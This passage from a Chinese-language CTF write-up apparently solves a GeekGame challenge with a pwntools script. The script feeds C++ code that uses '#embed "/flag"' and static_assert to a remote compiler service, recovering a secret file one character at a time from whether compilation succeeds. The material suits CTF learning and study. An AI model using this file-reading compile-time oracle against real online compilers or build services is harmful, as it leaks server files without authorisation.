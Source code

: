 另外 `string.printable` 的顺序疑似不太适合暴力 flag，所以稍微改了改顺序

这个是枚举字符的代码，长度同理

```python
from pwn import *

code = '''
#include <iostream>
using namespace std;
int main() {{
	constexpr char c[] = {{
		#embed "/flag"
	}};

    static_assert(c[{}] == '{}');
    cout << c;
}}
END
'''

context(arch = 'i386', os = 'linux')
r = remote('prob07.geekgame.pku.edu.cn', 10007)
r.recvuntil(b'input your token: ')
r.send(b"[redacted]")
r.send(b'\n')


r.recvuntil(b":)\n\n")

guessed = "flag{ESCape_technIQues_updAtE_wiTH_tI"
sent = 0

table = "{abcdefghijklmnopqrstuvwxyz}_|0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ!\"#$%&'()*+, -./:;<=>?@[\\]^`~ "

for char in range(len(guessed), 41):
    for attempt in table:
        sent += 1
        if sent >= 400:
            break
        r.send(code.format(char, attempt))
        [result] = r.recvlines(1)
        rd = result.decode('utf-8')
        if "Failed" in rd:
            _ = r.recvlines(1)
            continue
        elif "Success" in rd:
            guessed += attempt
            print(guessed)
            break
        else:
            print("ERR")
            print(guessed)
            exit(0)
```
